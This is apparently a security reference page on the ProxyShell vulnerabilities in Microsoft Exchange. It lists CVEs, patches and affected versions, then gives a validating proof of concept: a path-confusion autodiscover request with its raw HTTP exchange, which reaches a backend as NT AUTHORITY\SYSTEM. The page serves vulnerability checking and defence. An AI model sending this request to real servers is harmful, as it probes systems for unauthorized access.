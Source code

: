 ```yaml
---
title : "CVE-2021-34473"
# pre : ' '
description : "ProxyShell, the name given to a collection of vulnerabilities for Microsoft Exchange servers, enables an actor to bypass authentication and execute code as a privileged user."
date : 2021-08-25T09:47:29+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2021-34473 / CVE-2021-34523 / CVE-2021-31207 | ProxyShell

CVE-2021-34473
Pre-auth path confusion vulnerability to bypass access control
Patched in [KB5001779](https://support.microsoft.com/help/5001779), released in April

CVE-2021-34523
Privilege elevation vulnerability in the Exchange PowerShell backend
Patched in [KB5001779](https://support.microsoft.com/help/5001779), released in April

CVE-2021-31207
Post-auth remote code execution via arbitrary file write
Patched in [KB5003435](https://support.microsoft.com/help/5003435), released in May

This vulnerability affects:

* Exchange 2013 CU23 < 15.0.1497.15
* Exchange 2016 CU19 < 15.1.2176.12, Exchange 2016 CU20 < 15.1.2242.5
* Exchange 2019 CU8 < 15.2.792.13, Exchange 2019 CU9 < 15.2.858.9

### Examples

#### Validating POC

```plain
https://<<ip>>/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com
```

```plain
GET /autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com HTTP/1.1
Host: exch.offsec.nl
Accept-Charset: iso-8859-1,utf-8;q=0.9,*;q=0.1
Accept-Language: en
Connection: Close
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)
Pragma: no-cache
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
```

```plain
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html
Server: Microsoft-IIS/8.5
request-id: af2ae0ee-6593-4523-8fa1-5d283d7ae3da
X-CalculatedBETarget: exch.offsec.nl
X-ServerApplication: Exchange/15.01.1913.012
X-DiagInfo: EXCH
X-BEServer: EXCH
X-AspNet-Version: 4.0.30319
Set-Cookie: X-BackEndCookie=; expires=Sun, 25-Aug-1991 07:43:18 GMT; path=/autodiscover; secure; HttpOnly
X-Powered-By: ASP.NET
X-FEServer: EXCH
Date: Wed, 25 Aug 2021 07:43:17 GMT
Connection: close
Content-Length: 522

<html>
<head>
<title>Exchange MAPI/HTTP Connectivity Endpoint</title>
</head>
<body>
<p>Exchange MAPI/HTTP Connectivity Endpoint<br><br>Version: 15.1.1913.12<br>Vdir Path: /mapi/nspi/<br><br></p><p><b>User:</b> NT AUTHORITY\SYSTEM<br><b>UPN:</b> <br><b>SID:</b> S-1-5-18<br><b>Organization:</b> <br><b>Authentication:</b> Negotiate<br><b>PUID:</b> <br><b>TenantGuid::</b> </p><br><p><b>Cafe:</b> exch.offsec.nl<br><b>Mailbox:</b> exch.offsec.nl</p><p><br><br><br><b>Created:</b> 25-8-2021 07:43:18</p></body></html>
```

### URL list

* [Zerodayinitiative.com - From Pwn2Own 2021: A New Attack Surface on Microsoft Exchange - ProxyShell!](https://www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell)
* [News.sophos.com - ProxyShell vulnerabilities in Microsoft Exchange What to do](https://news.sophos.com/en-us/2021/08/23/proxyshell-vulnerabilities-in-microsoft-exchange-what-to-do/)
